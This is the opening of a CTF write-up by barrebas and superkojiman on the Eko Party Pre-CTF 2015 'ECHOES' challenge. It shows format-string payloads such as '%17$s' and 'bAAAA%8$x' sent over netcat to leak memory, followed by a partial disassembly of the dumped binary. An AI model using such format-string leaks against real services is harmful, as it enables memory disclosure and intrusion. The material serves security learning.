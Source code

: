 ```yaml
---
layout: post
title: "Eko Party Pre-CTF 2015 ECHOES"
date: 2015-09-21 18:32:11 -0400
author: [barrebas, superkojiman]
comments: true
categories: [ekoparty]
---
```


### Solved by barrebas and superkojiman

Where on earth shall we begin? This one kept us busy for quite some time. The challenge gives no binary, just an address to connect to. Upon connecting, we get some kind of echo server. We quickly noticed a string format vulnerability:

```
$ nc challs.ctf.site 20002
<Simple loop greetings v1.3.3.7>
[!] Type bye to quit
Enter your name: %17$s
Hi 3k0_p4rty_2015!
```

However this wasn't the flag. As we'll see later, this was part of the challenge. We started dumping the entire binary using the string format vuln. Our format string can be found at offset 8 with 1 byte of padding:

bAAAA%8$x

```
nc challs.ctf.site 20002
<Simple loop greetings v1.3.3.7>
[!] Type bye to quit
Enter your name: bAAAA%8$x
Hi bAAAA41414141
```

From the raw dump, we reconstructed parts of the binary. We came across a string that said "OMG! Well done, here's your flag" or something along those lines. Looking through the raw dump, we found where that string is referenced. Disassembling with radare2 gave us this:


```
bas@tritonal:~$ rasm2 -d -o 0x13370861 -
7517c7442404970a37138d45e7890424e86afcffff85c074188d45e789442404c704249a0a3713e883fcffffe9a52a2a2ac70424a20a3713e872fcffff8d45e7890424e867fcffffc70424a60a3713e8cbfcffff8d45e789442404c70424a70a3713e828fcffff85c07566c70424c40a3713e838fcffffa10821371389442404c70424c1203713e8f0fdffff8945dca10821371389442404c70424cc2037130cd8fdffff8945e08b4545dc890424e8f6fbffff8b45dc890424
disassemble error at offset 162
jnz 0x1337087a
mov dword [esp+0x4], 0x13370a97
lea eax, [ebp-0x19]
mov [esp], eax
call dword 0x133704e0
test eax, eax
jz 0x13370892
lea eax, [ebp-0x19]
mov [esp+0x4], eax
mov dword [esp], 0x13370a9a ; 
call dword 0x13370510       ; puts? (value in got is 0xb7e76c40)
jmp dword 0x3d613337
mov dword [esp], 0x13370aa2 ; Hi
call dword 0x13370510
lea eax, [ebp-0x19]
mov [esp], eax
call dword 0x13370510
```